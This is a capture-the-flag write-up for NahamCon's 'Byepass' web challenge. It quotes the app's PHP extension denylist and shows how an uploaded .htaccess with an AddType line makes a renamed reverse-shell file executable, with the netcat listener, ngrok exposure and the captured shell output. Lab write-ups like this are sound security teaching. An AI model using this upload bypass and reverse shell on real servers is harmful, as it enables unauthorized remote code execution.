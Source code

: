 # Byepass

## Description
Author: @JohnHammond#6971

Help yourself Say Goodbye to days gone by with our easy online service! Upload your photos to capture the memory, cherish them with friends and family, and savor the time we have together!

Retrieve the flag out of the root of the filesystem /flag.txt.

Press the Start button on the top-right to begin this challenge.
Attachments: [byepass.7z](https://ctf.nahamcon.com/files/aea4e6af39403351d847ee556e51822e/byepass.7z?token=eyJ1c2VyX2lkIjoxNDI1LCJ0ZWFtX2lkIjo3NzUsImZpbGVfaWQiOjI0fQ.Y51iQA.nuBymFORKVtG9If-XqKNFLuez24)

## Solve

Inside of the `save_memories.php` file we see it is blocking all executable php extensions:
```php
$ext_denylist = array(
    "php",
    "php2",
    "php3",
    "php4",
    "php5",
    "php6",
    "php7",
    "phps",
    "phps",
    "pht",
    "phtm",
    "phtml",
    "pgif",
    "shtml",
    "phar",
    "inc",
    "hphp",
    "ctp",
);
```

The code will check if we have a blank filename, an extension matching `ext_denylist`, or a file over 500000 bytes. If any of these are true the file will not upload.

I tried double extensions, adding in a null byte, and a few other tricks but none of these made the files executable once uploaded.

Then I came accross [this](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass) lab by PortSwingger and figured out another solution.

Before uploading any files I set up a listener with `nc -lnvp 4444` and used `ngrok tcp 4444` to expose my local port to the internet. Then I edited `shell.php` to the hostname and port that ngrok gave me.

I opened the site in burpsuite and uploaded my `shell.php` file. Then I changed the `filename` parameter to `.htaccess` and replaced the contents of the upload with `AddType application/x-httpd-php .l33t`.

The `.htaccess` file is a configuration file in apache that tells the apache server specific settings to apply in the current directory. With this upload we are telling the server to treat the `.l33t` extension as php which we can execute.

Then I sent another request to upload my `shell.php` file but changed the extension in the `filename` parameter to `.l33t`.

Once I send a request for the `/shell.l33t` file I get a connection in my terminal and `cat` out the flag.
```
Connection from 127.0.0.1:33710
Linux byepass-95b1048df7a3140a-7d758448f7-jrr6r 5.10.133+ #1 SMP Sun Sep 11 08:45:44 UTC 2022 x86_64 GNU/Linux
 14:53:33 up 15 days,  7:37,  0 users,  load average: 1.09, 0.43, 0.32
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /flag.txt
flag{32697ad7acd2d4718758d9a5ee42965d}
```

## Flag
```
flag{32697ad7acd2d4718758d9a5ee42965d}
```